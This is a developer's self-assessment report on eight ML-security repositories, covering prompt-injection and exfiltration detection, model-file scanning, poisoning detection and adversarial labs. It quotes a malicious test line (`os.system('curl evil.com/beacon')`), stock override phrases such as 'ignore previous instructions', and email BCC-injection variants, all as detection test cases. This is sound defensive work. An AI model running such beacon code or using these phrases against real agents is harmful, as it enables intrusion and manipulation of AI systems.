


# Portfolio Honesty Report: ML Security Repositories

Owner: Pooja Kiran (`poojakira`)
Date: 2026-07-21
Status: Honest technical evidence report, not a marketing claim
Scope: 8 public ML/security repositories and the remediation PR branches listed below

## Executive Summary

This portfolio is a set of ML security products, research tools, and architecture specifications. It is not a single fully integrated production platform yet. The strongest parts are concrete security instrumentation, adversarial testing utilities, signed benchmark artifacts, and explicit regression tests for previously demonstrated bypasses. The weakest parts are cross-repo integration, production telemetry uniformity, real-world dataset validation, and full semantic ML detection coverage.

The honest conclusion is: these repos are stronger than typical portfolio demos because they include threat models, tests, reproducible PoCs, CI/security controls, and explicit limitations. They are not stronger than mature commercial security platforms such as Snyk, Wiz, Datadog, Protect AI, Garak, Robust Intelligence, Lakera, or enterprise Hugging Face security workflows. The credible comparison is narrower: they demonstrate product-oriented ML security thinking beyond toy examples, but they still need production hardening before operational deployment.

## Remediation PRs Reviewed

| Repo | PR | Current purpose |
|---|---|---|
| mcp-security-gateway-monitor | https://github.com/poojakira/mcp-security-gateway-monitor/pull/13 | MCP tool-call monitoring, exfiltration and prompt-injection detection |
| hf-model-provenance-scanner | https://github.com/poojakira/hf-model-provenance-scanner/pull/4 | Static model repository scanner for pickle/source/provenance risks |
| PulseNet-RUL-Forecasting | https://github.com/poojakira/PulseNet-RUL-Forecasting/pull/23 | Secure predictive-maintenance API with auth and audit controls |
| dataset-poisoning-detector | https://github.com/poojakira/dataset-poisoning-detector/pull/11 | Statistical and streaming dataset poisoning detection |
| llm-redteam-framework | https://github.com/poojakira/llm-redteam-framework/pull/7 | Offline LLM prompt-risk corpus and classifier evaluation |
| model-privacy-attacks | https://github.com/poojakira/model-privacy-attacks/pull/5 | Membership inference and extraction attack correctness toolkit |
| adversarial-ml-lab | https://github.com/poojakira/adversarial-ml-lab/pull/7 | Adversarial robustness attack/evaluation lab |
| unified-ml-security-platform | https://github.com/poojakira/unified-ml-security-platform/pull/1 | Architecture/specification repo for the target integration |

## Graph 1: Target Portfolio Architecture



Interpretation: this graph is a target architecture. The repos do not yet share one authentication plane, one telemetry plane, one data schema, or one deployment orchestrator.

## Graph 2: Repository Maturity Map



These coordinates are qualitative reviewer estimates, not measured scores. They are included to make the portfolio status visible, not to manufacture precision.

## Graph 3: Verified Controls by Repository

Legend: `Y` verified in this remediation pass, `P` partial, `N` not verified or not present.

| Repo | Tests run | Bypass regression | CI/security controls | Production interface | Honest limitations |
|---|---:|---:|---:|---:|---:|
| mcp-monitor | Y | Y | P | P | Y |
| hf-scanner | Y | Y | P | CLI | Y |
| PulseNet | Y | Y | Y | Y | P |
| poisoning-detector | Y | Y | P | Y | Y |
| llm-redteam | Y | Y | P | N | Y |
| privacy-attacks | Y | Y | P | N | Y |
| adversarial-lab | Y | Y | Y | CLI | Y |
| unified-platform | P | N/A | P | Spec stubs | Y |

## Graph 4: Residual Risk Heatmap

| Repo | Main residual risk | Risk level | Why |
|---|---|---:|---|
| mcp-monitor | New semantic paraphrases and non-covered languages | High | Regex and static phrase matching cannot guarantee semantic intent detection. |
| hf-scanner | Scanner scope vs full HF supply chain | Medium | Static scanning is useful, but cannot prove runtime safety of all model loading paths. |
| PulseNet | Operational key management and audit storage durability | Medium | Code now chains audit entries, but durable append-only storage still matters. |
| poisoning-detector | Clean-label and adaptive poisoning | High | Statistical anomaly detection cannot prove malicious intent. |
| llm-redteam | Small synthetic/curated corpus and high FP pressure | High | 1303 prompts and TF-IDF do not prove real-world jailbreak generalization. |
| privacy-attacks | Synthetic validation external validity | Medium | Metrics verify attack implementation, not real-world leakage magnitude. |
| adversarial-lab | GPU/benchmark realism and physical-world validation | Medium | Many attacks are digital simulations, not full real-world trials. |
| unified-platform | Real integration absent | High | Spec stubs are honest, but not a working unified product. |

## Motivation

The motivation for this portfolio is to show that ML security is not one tool. A real ML security program needs supply-chain scanning, prompt/tool-call monitoring, poisoning checks, privacy attack evaluation, adversarial robustness evaluation, authenticated serving, auditability, and integration architecture. Each repo isolates one part of that system so it can be tested and criticized independently.

The motivation for this honesty report is credibility. A security portfolio becomes weaker when it overclaims. Strong reviewers will test the claims, run commands, inspect CI, and look for fake production language. This document makes the limits visible before a reviewer has to discover them.

## What This Portfolio Is

This is a public, evidence-oriented ML security portfolio. It contains:

- Standalone tools: scanners, detectors, attack labs, and evaluation harnesses.
- Reference implementation: PulseNet as a secured ML API example.
- Architecture specification: unified-ml-security-platform as a target integration map.
- Regression hardening: tests for concrete bypasses found during red-team style review.

This is not yet:

- A fully deployed enterprise ML security platform.
- A replacement for commercial SAST, CNAPP, MLOps observability, model registry governance, or production SOC tooling.
- A mathematically complete defense against prompt injection, poisoning, privacy leakage, or adversarial examples.

## Why This Document Is Honest

This document separates verified facts from interpretation. It lists exact tests that were run, names residual risks, and refuses broad claims like "hackers cannot hack it" or "industry best". Where a comparison is made, the comparison is scoped: toy repos, common portfolio projects, specific scanner behavior, or specific test coverage. Mature industry tools are treated as stronger unless this portfolio has direct evidence otherwise.

## Technical Terms Glossary

| Term | Meaning |
|---|---|
| AST | Abstract Syntax Tree; parsed structure of source code used for static analysis. |
| Base64 bypass | Hiding malicious text or code inside Base64 encoding to avoid string matching. |
| BCC injection | Adding hidden email recipients through `Bcc`, header variants, raw SMTP headers, or MIME nesting. |
| CI | Continuous Integration; automated checks run on commits or PRs. |
| CVSS | Common Vulnerability Scoring System; standard severity scoring method. |
| Data poisoning | Manipulating training data so the trained model behaves incorrectly. |
| False positive | A benign item incorrectly flagged as malicious. |
| False negative | A malicious item missed by the detector. |
| FP budget | Maximum acceptable false-positive rate before deployment is blocked. |
| HMAC | Keyed hash used to detect tampering when the signing key remains secret. |
| Homoglyph | Lookalike character from another script, e.g. Cyrillic `a` instead of Latin `a`. |
| Magic bytes | File header bytes used to identify true file type instead of trusting extension. |
| MIA | Membership Inference Attack; tests whether a record was in training data. |
| MIME nesting | Email multipart structure where headers can appear inside nested parts. |
| NFKC | Unicode normalization form that folds many compatibility characters. |
| Prompt injection | Text crafted to override instructions or manipulate an LLM/tool system. |
| Regression test | Test added so a fixed bug cannot silently return. |
| SBOM | Software Bill of Materials; inventory of software dependencies/artifacts. |
| Semantic detection | Detection based on meaning/intent rather than exact words. |
| Static analysis | Inspecting code/files without executing untrusted payloads. |
| Supply chain security | Controls for dependencies, artifacts, provenance, and tamper evidence. |
| TracIn | Influence approximation method for identifying training samples with high effect on model loss. |
| Welford algorithm | Numerically stable online mean/variance algorithm. |

## Repo 1: mcp-security-gateway-monitor

### What it is

A monitor for MCP tool-call arguments and exfiltration indicators. It scans nested tool-call inputs for prompt injection, risky data movement, and email recipient abuse.

### How it is done

The prompt detector extracts strings from tool-call arguments, normalizes text, applies regex patterns, and now includes concrete bypass regressions for malformed Base64, multilingual override strings, and semantic no-restriction intent patterns. The exfiltration detector normalizes email header keys, parses raw headers, and walks MIME structures for hidden BCC/CC recipients.

### Verified results

- Focused test suite passed: prompt injection, normalization pipeline, exfiltration, BCC normalization.
- Regression PoC detected malformed Base64 marker, French/Spanish/German instruction override, and semantic prompts like "what would you do if you had no restrictions at all".
- BCC variants were detected in prior focused validation: `carbon_copy`, `rcpt_to`, raw `Bcc`, Cyrillic key spoofing, and MIME nested header.

### Why the result matters

Prompt injection defenses often fail because they scan raw text. This repo now demonstrates normalization-first detection and explicit bypass tests. That is better than many toy detectors that only search for "ignore previous instructions".

### Skeptical limitation

This is still not a complete semantic classifier. A determined attacker can create paraphrases, new languages, or multi-turn attacks that require stateful context and ML-based intent classification. The current implementation is a hardened detector, not a proof of safety.

### Industry comparison

Better than: simple portfolio regex scanners and raw-string-only prompt filters.

Not better than: production LLM security gateways with large proprietary corpora, telemetry, human review queues, online learning, and policy engines.

## Repo 2: hf-model-provenance-scanner

### What it is

A static scanner for model repository risk, especially pickle deserialization, Python source gadgets, file format abuse, and provenance signals.

### How it is done

The scanner uses magic-byte detection and pickle opcode analysis rather than trusting file extensions. The CLI now scans a single local renamed binary model file and flags Python execution gadgets in `__init__.py`.

### Verified results

- `tests/test_pickle_scanner.py`: 15 tests passed.
- CLI PoC detected a malicious pickle renamed to `.gguf` and returned critical findings.
- CLI PoC detected `__init__.py` containing `import os; os.system('curl evil.com/beacon')`.

### Why the result matters

Trusting file extensions is a common supply-chain mistake. Magic-byte and content-aware analysis is the correct direction because attackers rename files.

### Skeptical limitation

Static analysis cannot prove a model repository is safe. It can find known high-risk patterns and reduce obvious blind spots. It does not replace sandboxed loading, signed artifacts, dependency pinning, model-card provenance, or runtime monitoring.

### Industry comparison

Better than: extension-only pickle checks and hobby scanners that skip `.gguf` or `.safetensors` if renamed.

Not better than: enterprise model supply-chain platforms with provenance enforcement, registry integration, policy-as-code, and sandboxed dynamic analysis.

## Repo 3: PulseNet-RUL-Forecasting

### What it is

A secure predictive-maintenance reference application using JWT auth, RBAC, audit logging, model serving, and ML pipeline elements.

### How it is done

JWT secret loading is deferred and entropy-checked. JWT verification whitelists the configured algorithm. Tenant IDs are regex validated. Access audit entries now include sequence numbers and previous hashes so deletion or reordering is detected.

### Verified results

- Focused auth/audit tests passed.
- Direct PoC rejected `alg:none`, rejected weak `PULSENET_JWT_SECRET=password`, and rejected traversal-style tenant IDs.
- Audit deletion PoC now fails verification after deleting the first chained entry.

### Why the result matters

This repo has stronger production signals than most ML demos because it treats auth, auditability, and deployment diagnostics as first-class concerns.

### Skeptical limitation

Hash chaining in a local file is tamper-evident only if the attacker cannot rewrite the whole file and any external checkpoint. Production requires append-only storage, external digest anchoring, centralized logs, and key management.

### Industry comparison

Better than: ML notebooks and toy FastAPI demos with no auth, no audit, and import-time secret crashes.

Not better than: mature regulated production systems with HSM/KMS-backed keys, centralized SIEM, WORM log storage, SSO, and full SOC workflows.

## Repo 4: dataset-poisoning-detector

### What it is

A poisoning/anomaly detector for numeric feature matrices and streaming data, with z-score, IQR, Isolation Forest, drift checks, fingerprinting, and API/pipeline components.

### How it is done

The detector combines statistical anomaly methods and exposes configurable thresholds and FP budget logic. The streaming detector now raises a sticky drift alarm when the clean-window mean slowly moves away from a known-clean baseline.

### Verified results

- Detector and drift tests passed.
- Slow drift PoC over 500 gradual samples now returns `drift_detected=true`.
- Statistical camouflage PoC still shows a center-distribution sample can pass, which is expected for numeric anomaly detection.

### Why the result matters

Gradual poisoning is a realistic attacker strategy. Detecting slow baseline movement is more useful than only detecting sudden outliers.

### Skeptical limitation

Clean-label attacks and semantically malicious but statistically normal samples remain hard. Without labels, embeddings, training gradients, or influence analysis, the system cannot prove a sample is malicious.

### Industry comparison

Better than: simple batch-only anomaly scripts with no streaming drift control or FP budget.

Not better than: production data quality/security platforms with lineage, labels, feature stores, model-feedback loops, and human review workflows.

## Repo 5: llm-redteam-framework

### What it is

An offline LLM red-team prompt corpus generator and classifier evaluation harness using TF-IDF character n-grams and logistic regression.

### How it is done

The framework builds a reproducible 1303-prompt corpus, evaluates with leave-templates-out splitting, reports false-positive rate, and now enforces FP budget in the CLI unless `ALLOW_HIGH_FP=true` is explicitly set.

### Verified results

- FP budget tests passed.
- Grouped evaluation reports FP rate about 0.0795 on the current corpus and fails the CLI when budget is 0.05 without override.
- Earlier PoCs showed tested paraphrase/code-switch/leet prompts were detected, but that does not prove broad semantic robustness.

### Why the result matters

A detector with high recall but uncontrolled false positives is not deployable. Enforcing FP budget makes the evaluation operational instead of decorative.

### Skeptical limitation

The corpus is small and synthetic/curated. TF-IDF character features do not understand meaning. Real jailbreaks drift quickly, so production use needs continuous corpus ingestion and semantic embedding or model-based second-stage detection.

### Industry comparison

Better than: demos that report only accuracy or recall while hiding FP rate.

Not better than: production guardrail vendors with large live corpora, multilingual testing, active red teams, online telemetry, and policy governance.

## Repo 6: model-privacy-attacks

### What it is

A toolkit for membership inference, shadow-model MIA, model extraction, and Min-K% probability attack correctness checks.

### How it is done

The repo uses deterministic synthetic tests to verify implementation behavior. The extraction attack now reports probability-distance fidelity metrics, including mean KL divergence and mean L1 distance, instead of relying only on label agreement.

### Verified results

- Privacy attack test suite passed.
- Shadow MIA uses disjoint public in/out splits for each shadow model.
- Min-K% scoring sorts ascending and averages the lowest-probability tokens.
- Extraction fidelity now includes agreement plus probability distance.

### Why the result matters

Agreement alone can hide weak extraction quality. Two models can agree on labels while having different confidence distributions and decision boundaries.

### Skeptical limitation

The metrics are synthetic correctness checks, not real-world privacy leakage claims. Real validation needs known-membership datasets, real models, and careful controls against distribution shift.

### Industry comparison

Better than: attack demos that only run without asserting above-random effectiveness.

Not better than: formal privacy auditing platforms with real datasets, DP accounting, attack suites across model families, and legal/compliance workflows.

## Repo 7: adversarial-ml-lab

### What it is

An adversarial robustness lab for gradient, black-box, poisoning, LLM, physical, universal, and benchmark-integrity experiments.

### How it is done

The repo implements many attack families with tests and documents implementation status. CI benchmark artifacts can be HMAC signed. A new `benchmark_verify.py` CLI returns `VALID`, `TAMPERED`, or `UNSIGNED` for signed benchmark JSON.

### Verified results

- Signing and verifier tests passed.
- Root CLI smoke returned `VALID` for a signed report.
- HMAC implementation rejects empty keys, detects tampering, rejects missing signatures, and uses canonical JSON.
- `ATTACK_IMPLEMENTATION_STATUS.md` marks DeepFool and AutoAttack as stubbed instead of pretending they are implemented.

### Why the result matters

Benchmark signing makes adversarial evaluation artifacts tamper-evident. The status document prevents scope inflation, which is a major credibility risk in adversarial ML portfolios.

### Skeptical limitation

Digital physical-patch simulation is not the same as physical-world testing. GPU-heavy tests and full AutoAttack/RobustBench comparisons remain expensive and not fully covered by ordinary CI.

### Industry comparison

Better than: notebooks that run FGSM/PGD once and call it adversarial robustness.

Not better than: RobustBench, AutoAttack reference workflows, or enterprise ML evaluation stacks with self-hosted GPU runners and reproducible benchmark datasets.

## Repo 8: unified-ml-security-platform

### What it is

An architecture specification for integrating repos 1-7. It is not currently a real unified product.

### How it is done

The README and STATUS now state that this is a design specification. Compose files are self-contained and use spec stub services instead of broken external paths. CI actions have been pinned and image signing logic improved.

### Verified results

- `docker compose -f docker-compose.yml config` passed.
- `docker compose -f docker-compose.prod.yml config` passed.
- `spec_service.py` compiled.
- Workflow YAML parsed.
- Docker build was not verified because Docker Desktop Linux engine was unavailable in the local environment.

### Why the result matters

Honest scaffolding is better than false platform claims. Reviewers can trust a spec that says it is a spec; they will distrust a scaffold that claims to be seven production products.

### Skeptical limitation

This repo still lacks a real reverse proxy integration, shared auth, shared schema, shared telemetry, and real service orchestration for the seven repos.

### Industry comparison

Better than: architecture repos that falsely present empty scaffolds as working platforms.

Not better than: actual platform repos with runnable services, integration tests, deployment manifests, observability, and release management.

## Results Comparison: Portfolio vs Common Baselines

| Capability | Typical toy portfolio | This portfolio | Mature industry platform |
|---|---|---|---|
| Threat model | Usually missing | Present in several repos, uneven | Formal and continuously updated |
| Bypass tests | Rare | Added for concrete bypasses | Large internal corpora and fuzzing |
| Secret handling | Often hardcoded/env-only | Improved in PulseNet; still uneven | KMS/HSM/rotation/secrets inventory |
| File type trust | Extension-based | Magic-byte fix in hf-scanner | Full artifact/provenance policy |
| Prompt injection | Keyword matching | Normalization + regressions | Multimodal telemetry, classifiers, review workflows |
| False-positive control | Rarely measured | Explicit FP budget in redteam/poisoning | Tuned on production traffic |
| Audit integrity | Often absent | PulseNet hash chain | WORM/SIEM/external anchoring |
| Benchmark integrity | Often absent | HMAC verifier in adv-lab | Signed provenance and controlled runners |
| Integration | Usually none | Spec and stubs | Real platform with SLAs |

## Where Pooja Kiran's Products Are Better

They are better than many public portfolio projects in the following narrow, evidence-backed ways:

1. They include adversarial review outcomes and regression tests, not only happy-path demos.
2. They use concrete security concepts: magic bytes, AST scanning, JWT validation, audit chains, HMAC signing, FP budgets, drift alarms, and structured architecture mapping.
3. They explicitly document what is not implemented, including unified platform status and stubbed adversarial attacks.
4. They separate implementation correctness from real-world claims, especially in privacy attacks and red-team classifier metrics.
5. They have multiple draft remediation PRs tied to reproducible findings.

## Where They Are Not Better Yet

They are not yet better than mature industry products in these areas:

1. Real production telemetry and incident response.
2. Large-scale multilingual and semantic prompt-injection detection.
3. Real-world poisoning and privacy validation datasets.
4. Shared auth, schema, and service mesh across the portfolio.
5. GPU-backed adversarial benchmark CI.
6. Enterprise-grade dependency, SBOM, signing, and release management across every repo.
7. Long-term maintenance evidence from production users.

## How The Results Were Produced

The results in this report come from focused local validation on PR branches. Commands included targeted `pytest` runs, direct Python PoCs, `docker compose config`, YAML parsing, and GitHub PR branch verification. Where a command was not run or could not run, this document says so.

Notable verified commands:

```powershell
$env:PYTHONPATH='src'; py -3.12 -m pytest tests\test_normalization_pipeline.py
$env:PYTHONPATH='.'; py -3.12 -m pytest tests\test_pickle_scanner.py
$env:PYTHONPATH='src'; py -3.12 -m pytest tests\test_extra_coverage.py::TestAuditLogger
$env:PYTHONPATH='src'; py -3.12 -m pytest tests\test_drift.py
$env:PYTHONPATH='src'; py -3.12 -m pytest tests\test_fp_budget.py
$env:PYTHONPATH='src'; py -3.12 -m pytest tests\test_privacy_attacks.py
$env:PYTHONPATH='src'; py -3.12 -m pytest tests\test_ci_signing.py tests\test_benchmark_verify.py
docker compose -f docker-compose.yml config
docker compose -f docker-compose.prod.yml config
```

## Current Portfolio Grade

| Repo | Honest grade | Reason |
|---|---|---|
| mcp-monitor | C+ | Hardened against audited bypasses, but semantic/stateful detection remains incomplete. |
| hf-scanner | B- | Stronger scanner after CLI/magic-byte fixes; static scope still limited. |
| PulseNet | B | Best production-reference repo; needs durable audit/key ops. |
| poisoning-detector | B- | Useful statistical/streaming controls; clean-label attacks remain hard. |
| llm-redteam | C+ | Honest methodology and FP enforcement; corpus/model still research-grade. |
| privacy-attacks | B- | Good correctness toolkit; real-world leakage validation incomplete. |
| adversarial-lab | B | Broad attack lab and signed artifacts; GPU/full benchmark realism gaps remain. |
| unified-platform | D+ as product, B as spec | Honest spec and self-contained stubs; not a real platform. |

## Reviewer Guidance

A skeptical reviewer should merge nothing based only on this document. They should run the PR tests, inspect the exact diffs, verify CI, and challenge every claim about production readiness. That is intentional. This portfolio is stronger when it invites verification instead of asking for trust.

## Next Strict Steps

1. Merge remediation PRs only after CI passes.
2. Add shared structured JSON security-event schema across repos.
3. Add Prometheus metrics and health endpoints where missing.
4. Add SBOM and secret-scanning gates consistently.
5. Build a real thin integration layer for repos 1, 2, 3, and 4 before calling Repo 8 a platform.
6. Expand LLM red-team corpus with real public datasets and semantic embedding fallback.
7. Validate poisoning/privacy/adversarial claims on real or public benchmark datasets.
8. Add GPU CI path for adversarial-lab or clearly mark GPU tests as not continuously verified.